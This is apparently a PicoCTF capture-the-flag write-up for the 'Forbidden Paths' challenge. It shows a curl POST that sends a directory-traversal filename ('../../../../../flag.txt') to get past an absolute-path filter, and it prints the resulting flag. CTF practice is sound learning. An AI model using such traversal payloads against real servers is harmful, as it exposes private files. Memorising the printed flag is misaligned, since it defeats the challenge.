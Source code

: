 # Forbidden Paths #

This is the write-up for the challenge "Forbidden Paths" challenge in PicoCTF

## The challenge ##

### Description ###
you can find the challenge [here](https://play.picoctf.org/practice/challenge/270)  
the challeges says:  
> Can you get the flag?  
> We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?  

![mission image](img/mission.png) 

## How I Solve The Challege ##
In the website there are only a path input.  
![homepage image](img/homepage.png)  
on inspection I see nothing wrong with the website, the form just send a POST request to the `/read.php` page.  
for example we can send the next request to see how they process the data:  
```console
$: curl http://saturn.picoctf.net:<port>/read.php -X POST -F "filename=read.php" -s
```
after tring and failed to get the `/flag.txt` file (we know that "the website is filtering absolute file paths." from the description of the files) we ttried to get the `../../../../flag.txt`so its not absolute path but get to the path of the file that in `/file` (we know that the cwd of the server files is `/usr/share/nginx/html/`) we successfuly see the data, with a simple regex we can show the key on the terminal:

```console
#: curl http://saturn.picoctf.net:<port>/read.php -X POST -F "filename=../../../../../flag.txt" -s | grep -Eo picoCTF{.*?}
picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}
```

Voila!!! 😎  
The flag is `picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}`  
Cheers 😄  

